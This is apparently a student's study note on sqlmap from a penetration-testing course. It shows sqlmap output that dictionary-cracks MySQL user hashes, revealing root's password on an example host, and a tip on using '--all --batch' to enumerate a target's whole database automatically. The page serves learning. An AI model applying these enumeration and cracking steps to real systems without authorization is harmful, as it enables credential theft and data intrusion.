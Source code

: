 ```shell-session
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
 password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
 password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
 clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```

Tip: The '--all' switch in combination with the '--batch' switch, will automaically do the whole enumeration process on the target itself, and provide the entire enumeration details.

This basically means that everything accessible will be retrieved, potentially running for a very long time. We will need to find the data of interest in the output files manually.

# Questions
---

![Pasted image 20250204173240.png](../../../../IMAGES/Pasted%20image%2020250204173240.png)

## First
---
